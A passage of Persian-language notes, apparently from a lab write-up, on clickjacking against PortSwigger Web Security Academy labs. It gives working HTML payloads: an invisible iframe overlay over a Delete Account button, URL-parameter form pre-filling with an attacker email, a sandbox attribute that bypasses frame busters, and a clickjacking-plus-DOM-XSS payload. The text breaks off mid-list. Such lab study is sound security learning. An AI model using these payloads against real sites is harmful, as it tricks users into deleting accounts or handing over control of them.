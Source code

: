 # Clickjacking

## Exploit
- **حمله مقدماتی با حفاظت CSRF Token**
  - در کد زیر پیکسل ها را تغییر می دهیم تا متن *Click me* روی کلید *Delete Account* بیفند ، برای این کار باید ابتدا opacity را برابر 0.1 قرار دهیم و پس از بدست آوردن موقعیت درست، آن را روی 0.0001 تنظیم کنیم:
```HTML
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: $opacity;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Test me</div>
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account"></iframe>
```
- **پر کردن خودکار فیلدهای فرم با استفاده از URL Param**
  - برای این منظور در کد فوق تگ iframe را به شکل زیر تغییر می دهیم:
```HTML
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
- **بای پاس کردن Frame Buster**
  - در اینحالت اجازه iframe کردن سایت قربانی را نخواهیم داشت، برای دور زدن این محافظت attribute زیر را به تگ iframe اضافه می کنیم:
```HTML
<iframe sandbox="allow-forms" src="https://ac1f1fd41fe93c54c00a5216000e009e.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
``` 
- **ترکیب با DOM-based XSS**
  - در اینحالت payload عه XSS را درون فیلد Name قرار می دهیم:
```HTML
<iframe src="$url?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
- س
